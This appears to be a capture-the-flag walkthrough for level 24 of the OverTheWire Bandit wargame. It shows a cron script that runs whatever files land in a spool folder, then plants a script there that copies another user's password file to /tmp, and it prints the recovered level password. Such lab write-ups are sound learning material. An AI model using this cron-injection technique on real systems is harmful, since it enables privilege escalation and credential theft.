 # Level 24:
Same as before :
```sh
cd /etc/cron.d/
cat /usr/bin/cronjob_bandit24.sh
```

```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo || exit 1
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -rf ./$i
    fi
done
```
Let's make our script and inject it into ``/var/spool/bandit24/foo``
```sh
mkdir -p /tmp/bandit23/ && chmod 777 /tmp/bandit23 && cd /tmp/bandit23

echo '#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/bandit23/pass' > bandit23.sh

chmod 777 bandit23.sh && cp bandit23.sh /var/spool/bandit24/foo
```
#### Password
*`VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar`*
